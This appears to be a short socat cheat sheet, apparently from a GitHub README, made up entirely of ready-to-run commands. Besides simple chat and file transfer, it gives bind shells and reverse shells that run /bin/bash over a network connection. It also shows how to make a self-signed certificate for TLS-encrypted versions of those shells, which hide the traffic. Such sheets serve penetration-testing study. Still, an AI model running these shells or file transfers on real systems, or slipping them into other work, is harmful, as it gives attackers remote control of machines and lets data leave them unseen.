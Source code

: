### Chat
```
socat - TCP4:192.168.1.4:80
socat TCP4-LISTEN:80 STDOUT
```

### Transfer Files
```
socat TCP4-LISTEN:4444,fork file:secret.txt
socat TCP4:192.168.1.4:4444 file:recieved.txt,create
```

### Bind Shell
```
socat TCP4-LISTEN:4444,fork EXEC:/bin/bash
socat - TCP4:192.168.1.4:4444
```

### Reverse Shell
```
socat -d -d TCP4-LISTEN:4444 STDOUT  # for verbosity (-d -d)
socat TCP4:192.168.1.5:4444 EXEC:/bin/bash
```

### Generate Certificate
```
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
cat bind_shell.key bind_shell.crt > bind_shell.pem
```

### Encrypted Bind Shell
```
socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
socat - OPENSSL:192.168.1.4:443,verify=0
```

### Encrypted Reverse Shell
```
socat - OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork
socat OPENSSL:10.11.0.4:443,verify=0 EXEC:/bin/bash
```
